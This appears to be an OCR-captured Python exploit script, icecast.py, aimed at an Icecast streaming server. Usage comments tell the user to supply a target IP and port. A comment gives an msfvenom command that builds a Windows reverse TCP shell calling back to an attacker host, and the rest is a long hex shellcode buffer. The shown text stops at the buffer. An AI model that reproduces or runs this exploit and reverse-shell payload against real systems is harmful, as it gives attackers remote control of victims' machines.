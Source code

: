     #!/usr/bin/env python3
    ##############################################################################################
    # How to use:
    # 1. Replace 'buf' shellcode below with msfvenom shellcode
    # 2. Call it like this: ./icecast.py <target> <port>
    # Eg. root@Kali:~# ./icecast.py 192.168.92.133 8000
    ##############################################################################################
    import socket
    import sys

    host = sys.argv[1] # Receive IP from user
    port = int(sys.argv[2]) # Receive Port from user

    # Replace with own shellcode here
    # msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.92.128 LPORT=443 -f python -b '\x00\x0a\x0d'

    buf =  ""
    buf += "\xd9\xc5\xd9\x74\x24\xf4\xba\xc4\x81\xbb\x95\x5e\x31"
    buf += "\xc9\xb1\x52\x31\x56\x17\x03\x56\x17\x83\x2a\x7d\x59"
    buf += "\x60\x4e\x96\x1c\x8b\xae\x67\x41\x05\x4b\x56\x41\x71"
    buf += "\x18\xc9\x71\xf1\x4c\xe6\xfa\x57\x64\x7d\x8e\x7f\x8b"
    buf += "\x36\x25\xa6\xa2\xc7\x16\x9a\xa5\x4b\x65\xcf\x05\x75"
    buf += "\xa6\x02\x44\xb2\xdb\xef\x14\x6b\x97\x42\x88\x18\xed"
    buf += "\x5e\x23\x52\xe3\xe6\xd0\x23\x02\xc6\x47\x3f\x5d\xc8"
    buf += "\x66\xec\xd5\x41\x70\xf1\xd0\x18\x0b\xc1\xaf\x9a\xdd"
    buf += "\x1b\x4f\x30\x20\x94\xa2\x48\x65\x13\x5d\x3f\x9f\x67"
    buf += "\xe0\x38\x64\x15\x3e\xcc\x7e\xbd\xb5\x76\x5a\x3f\x19"
    buf += "\xe0\x29\x33\xd6\x66\x75\x50\xe9\xab\x0e\x6c\x62\x4a"
    buf += "\xc0\xe4\x30\x69\xc4\xad\xe3\x10\x5d\x08\x45\x2c\xbd"
    buf += "\xf3\x3a\x88\xb6\x1e\x2e\xa1\x95\x76\x83\x88\x25\x87"
    buf += "\x8b\x9b\x56\xb5\x14\x30\xf0\xf5\xdd\x9e\x07\xf9\xf7"
    buf += "\x67\x97\x04\xf8\x97\xbe\xc2\xac\xc7\xa8\xe3\xcc\x83"
    buf += "\x28\x0b\x19\x03\x78\xa3\xf2\xe4\x28\x03\xa3\x8c\x22"
    buf += "\x8c\x9c\xad\x4d\x46\xb5\x44\xb4\x01\x7a\x30\xea\x51"
    buf += "\x12\x43\x12\x53\x58\xca\xf4\x39\x8e\x9b\xaf\xd5\x37"
    buf += "\x86\x3b\x47\xb7\x1c\x46\x47\x33\x93\xb7\x06\xb4\xde"
    buf += "\xab\xff\x34\x95\x91\x56\x4a\x03\xbd\x35\xd9\xc8\x3d"
    buf += "\x33\xc2\x46\x6a\x14\x34\x9f\xfe\x88\x6f\x09\x1c\x51"
    buf += "\xe9\x72\xa4\x8e\xca\x7d\x25\x42\x76\x5a\x35\x9a\x77"
    buf += "\xe6\x61\x72\x2e\xb0\xdf\x34\x98\x72\x89\xee\x77\xdd"
    buf += "\x5d\x76\xb4\xde\x1b\x77\x91\xa8\xc3\xc6\x4c\xed\xfc"
    buf += "\xe7\x18\xf9\x85\x15\xb9\x06\x5c\x9e\xc9\x4c\xfc\xb7"
    buf += "\x41\x09\x95\x85\x0f\xaa\x40\xc9\x29\x29\x60\xb2\xcd"
    buf += "\x31\x01\xb7\x8a\xf5\xfa\xc5\x83\x93\xfc\x7a\xa3\xb1"
